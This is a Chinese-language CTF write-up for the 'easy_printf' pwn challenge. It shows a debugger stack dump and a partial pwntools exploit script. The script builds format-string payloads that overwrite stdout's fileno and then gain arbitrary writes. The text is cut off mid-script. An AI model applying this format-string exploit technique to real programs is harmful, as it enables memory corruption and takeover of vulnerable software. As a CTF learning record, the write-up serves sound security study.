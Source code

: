 
## pwn

### easy_printf

pwnable.tw原题魔改，`bss`没有`stdin`,`stdout`,`stderr`了，但是一开始有个询问姓名，不知道有什么用,后来试了各种方法，想到了把`stdout`的`fileno`改为`2`，就可以绕过`close(1)`了
而且刚好
```asm
 ► 0x40089f <func1+57>    mov    eax, 0
   0x4008a4 <func1+62>    call   func2 <0x4007fa>
 
   0x4008a9 <func1+67>    mov    eax, 0
   0x4008ae <func1+72>    mov    rcx, qword ptr [rbp - 8]
   0x4008b2 <func1+76>    xor    rcx, qword ptr fs:[0x28]
   0x4008bb <func1+85>    je     func1+92 <0x4008c2>
 
   0x4008bd <func1+87>    call   0x400648
 
   0x4008c2 <func1+92>    leave  
   0x4008c3 <func1+93>    ret    
 
   0x4008c4 <main>        push   rbp
   0x4008c5 <main+1>      mov    rbp, rsp
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ rsi rsp  0x7fffc9a192f0 ◂— 0x4141414141414141 ('AAAAAAAA')
01:0008│          0x7fffc9a192f8 —▸ 0x7fe173507690 (_IO_file_underflow+496) ◂— 0xe8df8948fffffeff
02:0010│          0x7fffc9a19300 —▸ 0x7fe173852540 (_IO_2_1_stderr_) ◂— 0xfbad2087
```

名字下面残留有`stderr`，所以读取名字时,`partial overwrite`改为`_IO_2_1_stdout_->_fileno`，然后把`_fileno`改为2即可，后面的和`pwnable.tw`没什么区别，有了泄露，也有了无限格式化字符串攻击，随便怎么玩

exp为:

```python
from pwn import *

def fmtstr(offset, addr, data, written):
	cnt = 0
	payload = ''
	address = ''
	for x in data:
		cur = ord(x)
		if cur >= written&0xff:
			to_add = cur - (written&0xff)
		else:
			to_add = 0x100 + cur - (written&0xff)
		round = ''
		if to_add != 0:
			round += "%{}c".format(to_add)
		round += "%{}$hhn".format(offset+cnt+len(data)*2)
		assert(len(round) <= 0x10)
		written += to_add + 0x10 - len(round)
		payload += round.ljust(0x10, '_')
		address += p64(addr+cnt)
		cnt+=1
	return payload + address


def main(host,port=12001):
	if host:
		p = remote(host,port)
	else:
		# p = process("./easy_printf",env={"LD_PRELOAD":"./libc.so"})
```